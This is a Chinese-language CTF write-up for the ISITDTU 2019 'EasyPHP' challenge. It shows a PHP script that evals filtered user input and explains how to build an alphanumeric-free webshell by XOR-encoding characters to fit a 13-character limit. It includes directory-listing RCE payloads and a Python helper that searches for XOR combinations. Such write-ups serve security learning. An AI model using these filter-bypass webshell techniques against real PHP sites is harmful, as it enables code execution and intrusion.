


# [ISITDTU 2019]EasyPHP

## 知识点

`无字母数字webshell`

## 解题

题目给出了源码

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

> count_chars($string, 0x3)返回一个去重的字符串(所有使用过的不同的字符)

要求所用字符小于`13`种，还有很多检测，说明这是`无字母数字webshell`

测试一下`phpinfo()`





命令执行的函数都被禁用了,同时也限制了`open_basedir`在`/var/www/html`，使用`无参数rce`的`payload`

```php
print_r(scandir(.))
// 或者
print_r(glob('*.*'))
```

懒得改代码了  [当前代码](Scripts/xor_regex.py)

```python
result2 = [0x8b, 0x9b, 0xa0, 0x9c, 0x8f, 0x91, 0x9e, 0xd1, 0x96, 0x8d, 0x8c]  # Original chars,11 total
result = [0x9b, 0xa0, 0x9c, 0x8f, 0x9e, 0xd1, 0x96, 0x8c]  # to be deleted
temp = []
for d in result2:
    for a in result:
        for b in result:
            for c in result:
                if (a ^ b ^ c == d):
                    if a == b == c == d:
                        continue
                    else:
                        print("a=0x%x,b=0x%x,c=0x%x,d=0x%x" % (a, b, c, d))
                        if d not in temp:
                            temp.append(d)
print(len(temp), temp)
```

除了必要的`(` `)` `^`;以外，我们最多剩余`9`个字符的空间，逐步删除`result`里的值，当结果仍能保持`11`个，就意味着我们可以继续删除了。


[参考文章1](https://blog.csdn.net/mochu7777777/article/details/105786114)

[参考文章2](https://syunaht.com/p/2441275844.html)